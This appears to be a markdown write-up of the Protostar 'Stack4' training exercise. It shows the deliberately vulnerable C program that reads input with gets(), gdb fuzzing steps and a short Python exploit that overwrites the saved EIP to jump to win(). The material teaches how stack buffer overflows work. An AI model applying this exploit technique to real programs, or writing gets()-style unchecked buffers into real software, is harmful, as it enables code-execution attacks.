


# [cd ../](../index.md)
# Stack4
> Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

> Hints
- A variety of introductory papers into buffer overflows may help.
- gdb lets you do “run < input”
- EIP is not directly after the end of buffer, compiler padding can also increase the size.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Fuzzing
- modify the previous exploit we made by make a random padding
  ```
  AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
  ```
- make a **file** from *output* and use this as **input** str in `gdb`  
```
python stack4.py > stack4_exp
gdb stack4
r < stack4_exp
info registers
```
- We got a segfault
  
- We can see it segfaulted at `ebp` = `0x53535353` this is `S` and `eip` = `0x54545454` and this is character `T`
- Run `objdump -t stack4` and find win `objdump -t stack4 | grep win`
  - `win` is at `080483f4`
- We have to control these so change the code like:  

```python
import struct

padding = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR'
ebp = 'AAAA' # ebp - junk
eip = struct.pack('I', 0x080483f4) # eip
print padding+ebp+eip
```

- We have to create a file from the code output now then run in gdb  
`python stack4_2.py > stack4_2_exp`  


# OH YEAH WE GOT IT
